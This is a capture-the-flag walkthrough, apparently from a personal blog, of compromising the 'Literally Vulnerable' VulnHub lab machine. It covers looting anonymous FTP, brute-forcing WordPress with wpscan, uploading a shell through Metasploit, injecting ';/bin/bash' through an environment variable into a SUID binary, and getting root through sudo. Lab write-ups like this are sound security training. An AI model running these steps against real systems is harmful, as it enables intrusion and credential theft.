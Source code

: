 ```yaml
---
layout: post
title: " Literally Vulnerable - Vulnhub"
date: 2020-08-02
ctf: true
excerpt: "Walkthrough for Literally Vulnerable on Vulnhub"
tags: [website enumeration, anonymous ftp, privilege escalation, VulnHub]
comments: false
---
```


Literally Vulnerable is an easy to medium difficulty OSCP style box from [VulnHub](https://www.vulnhub.com). Below are the steps taken to compromise this box.

First, I enumerated open ports with **threader3000**.

![Literally Vulnerable threader3000](/assets/img/LiterallyVulnerable1.png)

Next, I ran **nmap -A -p 21,22,80,65535 [machine ip]** to enumerate the ports to find out more details about what services were running on them.

![Literally Vulnerable nmap](/assets/img/LiterallyVulnerable2.png)

It appears that there is an FTP server available with anonymous access, 2 HTTP servers on ports 80 and 65535, and SSH open. Let's take a look at the FTP server first. Let's run **ftp [machine ip]** and enter in the username of **anonymous** when prompted. Once connected, run **ls** and you will see a file called **backupPasswords**. Let's run **get backupPasswords** to save this file to our attacker pc.

![Literally Vulnerable ftp](/assets/img/LiterallyVulnerable3.png)

Let's terminate the ftp connection and run **cat backupPasswords** to see what is in the file.

![Literally Vulnerable backupPasswords](/assets/img/LiterallyVulnerable4.png)

It appears that this contains a list of passwords for something. Let's take a look at the website on port 80 to start with.

![Literally Vulnerable website port 80](/assets/img/LiterallyVulnerable5.png)

It appears that this is a WordPress site, but it didn't load properly. Looking at the links, it is looking for a website named **literally.vulnerable**. Let's run **echo "[machine ip] literally.vulnerable" >> /etc/hosts**.

![Literally Vulnerable update /etc/hosts](/assets/img/LiterallyVulnerable6.png)

Let's reload the website and see if it loads properly.

![Literally Vulnerable Wordpress site fixed](/assets/img/LiterallyVulnerable7.png)

This looks much better. I went to the Wordpress login link at the bottom of the page and tried using the username of **doe** on the login page, but it appeared that user didn't exist. I then tried with admin and used all the passwords in the **backupPassword** file, but none of them worked. I next took a look at the website on port 65535.

![Literally Vulnerable port 65535 website](/assets/img/LiterallyVulnerable8.png)

This appears to be a default configuration of Apache2. Let's run **gobuster dir -u http://literally.vulnerable:65535/ -w /usr/share/wordlists/dirb/big.txt -x .php,.txt -t 50**. It appears that there is a directory called **/phpcms**. Let's take a look at it.

![Literally Vulnerable gobuster port 65535](/assets/img/LiterallyVulnerable9.png)

It appears that this site has a password protected post by a user named **notadmin**. 

![Literally Vulnerable Wordpress](/assets/img/LiterallyVulnerable10.png)

I scrolled down and went to the login page. We know one of the user login names is **notadmin** based on who is posting. Let's see what we can find with **wpscan** for this site. Let's run **wpscan --url http://literally.vulnerable:65535/phpcms/ --enumerate**. This ends up returning 2 users, **maybeadmin** and **notadmin**.

![Literally Vulnerable wpscan 65535](/assets/img/LiterallyVulnerable11.png)

Let's try to crack one of these users with the passwords list we obtained earlier with **wpscan --url http://literally.vulnerable:65535/phpcms/ --usernames maybeadmin, notadmin --passwords backupPasswords**. After a few moments, we will crack the password for maybeadmin

![Literally Vulnerable maybeadmin password](/assets/img/LiterallyVulnerable12.png)

Let's navigate to **http://literally.vulnerable:65535/phpcms/wp-login.php** and attempt to login with the username **maybeadmin** and the password you just uncovered for this user.

![Literally Vulnerable WordPress dashboard](/assets/img/LiterallyVulnerable13.png)

Success! Let's see what information we can uncover. Let's take a look at the secure post we didn't have access to at the beginning. Click on **Posts** on the left hand menu and then you should be able to click on **Secure Post**

![Literally Vulnerable Secure Post](/assets/img/LiterallyVulnerable14.png)

This provides you with the credentials for **notadmin**. 

![Literally Vulnerable notadmin](/assets/img/LiterallyVulnerable15.png)

Let's login with this user's credentials, as we are not able to edit themes or add in/modify plugins as maybeadmin.

![Literally Vulnerable notadmin login](/assets/img/LiterallyVulnerable16.png)

Awesome **notadmin** is the admin to this WordPress site. Let's click on **Appearance** followed by **Theme Editor** so we can modify a PHP page with a reverse shell.

![Literally Vulnerable theme editor](/assets/img/LiterallyVulnerable17.png)

Next, on the right hand side, click on **404 Template** so we can paste in the reverse shell from [PenTestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Make sure to modify the IP address and port to match what you want to use on your attacker PC. Once finished, click on **Update File**.

![Literally Vulnerable PHP reverse shell](/assets/img/LiterallyVulnerable18.png)

Unfortunately, this results in an error message and we aren't able to save the changes to the PHP file. 

![Literally Vulnerable update failed](/assets/img/LiterallyVulnerable19.png)

Let's see if there's a MetaSploit module we can use instead. Let's launch metasploit with **msfconsole** and then run **search wp_admin**

![Literally Vulnerable msfconsole](/assets/img/LiterallyVulnerable20.png)

Let's attempt this exploit with **use exploit/unix/webapp/wp_admin_shell_upload ** and then run **show options**

![Literally Vulnerable msfconsole2](/assets/img/LiterallyVulnerable21.png)

Let's use **set PASSWORD [password from wpscan], set USERNAME notadmin, set TARGETURI /phpcms/, set RHOSTS [machine ip], set RPORT 65535** and run **show options** again to confirm all the options are set.

![Literally Vulnerable msfconsole3](/assets/img/LiterallyVulnerable22.png)

once enterd, type in **exploit** and press enter to start the exploit. You will soon get a meterpreter connection. Let's run **shell** to get to a shell and run **whoami** to see who we are logged in as.

![Literally Vulnerable meterpreter shell](/assets/img/LiterallyVulnerable23.png)

Let's see if we can upgrade our shell. After some trial and error it appears that python3 is installed, and we can get a shell with **python3 -c 'import pty; pty.spawn("/bin/sh")'**. Next, I navigated to the user home directory with **cd /home** and ran **ls** to see what was present there. It appears there are two users, **doe** and **john**. Let's go to doe's home directory with **cd doe**. The first flag is here, but we aren't able to read it. There's also a noteFromAdmin and an executable named **itseasy** that is a SUID that runs as the user **john**.

![Literally Vulnerable doe home folder](/assets/img/LiterallyVulnerable24.png)

Let's run the program with **./itseasy**. It appears to print the user's home directory, which is typically stored in the **$PWD** environmental variable. 

![Literally Vulnerable itseasy](/assets/img/LiterallyVulnerable25.png)

Let's modify the PWD variable to run bash instead with **export PWD=';/bin/bash'**. This will change this variable to execute a bash shell. Let's run **./itseasy**. You should now have a shell as john.

![Literally Vulnerable john shell](/assets/img/LiterallyVulnerable27.png)

Let's navigate to john's home directory with **cd /home/john** and run **ls -al** to see what's there. The user.txt file is present here, which can be viewed with **cat user.txt**.

![Literally Vulnerable user.txt](/assets/img/LiterallyVulnerable28.png)

At this point, I wanted to see if I could find any files that john owned throughout the victim machine, so I ran **find / -group john 2>/dev/null** which will eliminate any error messages and return only the files john has access to.

![Literally Vulnerable john owned files](/assets/img/LiterallyVulnerable29.png)

One stood out, **/home/john/.local/share/tmpFiles/myPassword**. Let's run **cat /home/john/.local/share/tmpFiles/myPassword**. This provides you with a note stating that john's password is encoded in base64. 

![Literally Vulnerable myPassword](/assets/img/LiterallyVulnerable30.png)

Let's run **echo "[base64 encoded password]"\|base64 -d**. This should provide you with john's credentials:

![](/assets/img/LiterallyVulnerable31.png)

Let's open a new terminal window on our attacker pc and run **ssh john@[machine.ip]** and enter the password that was just decoded.

![Literally Vulnerable SSH](/assets/img/LiterallyVulnerable32.png)

Let's run **sudo -l** and we see that john can run **/var/www/html/test.html** as root

![Literally Vulnerable sudo -l](/assets/img/LiterallyVulnerable33.png)

Let's navigate to that folder with **cd /var/www/html** and run **touch test.html**. Unfortunately, we are not able to create this file here with john.

![Literally Vulnerable Permission denied](/assets/img/LiterallyVulnerable34.png)

However, this is under a folder that www-data has access to. Let's go back to the other terminal window and type **exit** to leave the shell as john and go back to the **www-data** user.

![Literally Vulnerable www-data](/assets/img/LiterallyVulnerable35.png)

Let's run **touch /var/www/html/test.html** and see what happens

![Literally Vulnerable touch test.html](/assets/img/LiterallyVulnerable36.png)

Success! Let's run **echo "/bin/bash" >> /var/www/html/test.html** and **chmod +x /var/www/html/test.html**

![Literally Vulnerable update test.html](/assets/img/LiterallyVulnerable37.png)

This will allow it to run a bash shell as root since it is now executable. Next, go back to your SSH session as john and run **sudo ./test.html**. You should now have a root shell!

![Literally Vulnerable root shell](/assets/img/LiterallyVulnerable38.png)

Now, we can run **cd /root** followed by **ls** and **cat root.txt** to get the root flag. We can also run **cat /home/doe/local.txt** to get the local.txt flag from earlier.

![Literally Vulnerable root.txt local.txt](/assets/img/LiterallyVulnerable39.png)
